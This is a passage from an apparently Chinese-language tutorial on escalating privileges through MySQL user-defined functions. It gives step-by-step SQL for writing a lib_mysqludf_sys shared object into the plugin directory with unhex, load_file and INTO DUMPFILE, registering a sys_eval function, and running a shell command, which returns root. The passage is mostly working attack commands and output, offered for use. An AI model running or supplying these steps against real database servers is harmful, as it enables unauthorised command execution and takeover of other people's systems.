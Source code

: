     # 解码十六进制再写入多此一举
    SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
    ```
    
    文件的16进制可以通过mysql自带的hex函数编码
    
    ```sql
    # 直接传入路径编码
    SELECT hex(load_file('/lib_mysqludf_sys_64.so'));
    
    # 也可以将路径 hex 编码
    SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));
    ```
    
    一般可以
    
    ```sql
    mysql> use mysql;
    
    mysql> create table foo(line blob);
    Query OK, 0 rows affected (0.00 sec)
    
    mysql> insert into foo values (load_file('/tmp/lib_mysqludf_sys_64.so'))
    Query OK, 1 row affected (0.00 sec)
    
    mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/udf.so';
    Query OK, 1 row affected (0.00 sec)
    ```
    
5. 创建函数
    
    ```sql
    mysql> create function sys_eval returns string soname 'udf.so';
    Query OK, 0 rows affected (0.00 sec)
    
    mysql> select * from mysql.func; 
    +----------+-----+--------+----------+
    | name     | ret | dl     | type     |
    +----------+-----+--------+----------+
    | sys_eval |   2 | udf.so | function |
    +----------+-----+--------+----------+
    
    mysql> select sys_eval('whoami'); // 函数存在root函数
    +--------------------+
    | sys_eval('whoami') |
    +--------------------+
    | root               |
    +--------------------+
    ```
    